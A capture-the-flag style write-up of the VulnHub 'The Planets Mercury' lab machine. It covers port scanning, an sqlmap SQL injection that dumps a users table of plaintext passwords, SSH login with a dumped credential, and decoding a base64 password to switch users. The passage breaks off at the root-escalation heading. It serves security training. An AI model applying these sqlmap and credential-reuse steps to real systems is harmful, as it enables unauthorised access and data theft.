 ```yaml
---
title: Vulnhub - The Planets Mercury
description: My writeup on The Planets Mercury box.
categories:
 - vulnhub
tags: vulnhub sqlmap sqli sudo
---
```


![](https://i.pinimg.com/originals/f0/95/97/f095972de1a5052f7568d673edd66a46.jpg)

You can find the machine there > [The Planets Mercury](https://www.vulnhub.com/entry/the-planets-mercury,544/){:target="_blank"}

## Summary

This machine is quite easy, i have to admit that i stuck on privilege escalation for a while. Starting off with a sqlmap scan on the page we can grab some creds and ssh with them, this will give us a low-privilege shell on the box. Second privesc is really easy we just have to decode some base64 data & the final privesc to root is tricky we have to think smart to exploit it.
Let's start! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.19
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-13 20:22 EEST
Nmap scan report for mercury.zte.com.cn (192.168.1.19)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 08:00:27:C8:E8:0A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.23 seconds
$ nmap -p 22,8080 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-13 20:22 EEST
Nmap scan report for mercury.zte.com.cn (192.168.1.19)
Host is up (0.00059s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
```

Let's start the enumeration on port `8080`, i couldn't find something interesting, only this message:

`Hello. This site is currently in development please check back later.`

On `/robots.txt` too:

```
User-agent: * 
Disallow: /
```

Next step is to run a `gobuster` scan on it, but i didn't find anything:

```
$ gobuster dir -q -u http://$ip:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/robots.txt (Status: 200)
```

Anyway, i was testing different things on URL and i noticed that on the `Page not found (404)` error provide us a path:

```
Using the URLconf defined in mercury_proj.urls, Django tried these URL patterns, in this order:

[name='index']
robots.txt [name='robots']
mercuryfacts/
```

I browsed `/mercuryfacts` path & i noticed this message `Fact id: 1. (('Mercury does not have any moons or rings.',),)` under `Mercury Facts` link. Voilà! We can test for SQL Injection. Let's fire up sqlmap! :fire:

## Shell as webmaster

```
$ sqlmap -u http://192.168.1.19:8080/mercuryfacts/ --dbs --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.5#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

..data..

[21:30:48] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[21:30:49] [INFO] fetching database names
[21:30:49] [INFO] retrieved: 'information_schema'
[21:30:49] [INFO] retrieved: 'mercury'
available databases [2]:                                                                                                                                                           
[*] information_schema
[*] mercury
```

Here we go, let's grab the tables now.

```
sqlmap -u http://192.168.1.19:8080/mercuryfacts/ -D mercury --tables --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

..data..

[21:33:32] [INFO] retrieved: 'facts'
[21:33:32] [INFO] retrieved: 'users'
Database: mercury                                                                                                                                                                  
[2 tables]
+-------+
| facts |
| users |
+-------+
```

Let's get the data now from the `users` table.

```
$ sqlmap -u http://192.168.1.19:8080/mercuryfacts/ -D mercury -T users --dump --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

..data..

Database: mercury                                                                                                                                                                  
Table: users
[4 entries]
+------+-----------+-------------------------------+
| id   | username  | password                      |
+------+-----------+-------------------------------+
| 1    | john      | johnny1987                    |
| 2    | laura     | lovemykids111                 |
| 3    | sam       | lovemybeer111                 |
| 4    | webmaster | mercuryisthesizeof0.056Earths |
+------+-----------+-------------------------------+
```

After some tries i found the right creds, `webmaster:mercuryisthesizeof0.056Earths` & we have shell.

```
$ ssh webmaster@$ip
webmaster@192.168.1.19's password: 

webmaster@mercury:~$ whoami;id
webmaster
uid=1001(webmaster) gid=1001(webmaster) groups=1001(webmaster)
```

## Shell as linuxmaster

Enumerating the home folder, i noticed a directory called `mercury_proj`. I entered the directory and i found out 2 accounts under `notes.txt`:

```
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

I base64 decoded `linuxmaster` password and i got access!

```
webmaster@mercury:~/mercury_proj$ echo bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg== | base64 -d
mercurymeandiameteris4880km
webmaster@mercury:~/mercury_proj$ su - linuxmaster
Password: 
linuxmaster@mercury:~$ whoami;id
linuxmaster
uid=1002(linuxmaster) gid=1002(linuxmaster) groups=1002(linuxmaster),1003(viewsyslog)
```

## Shell as root

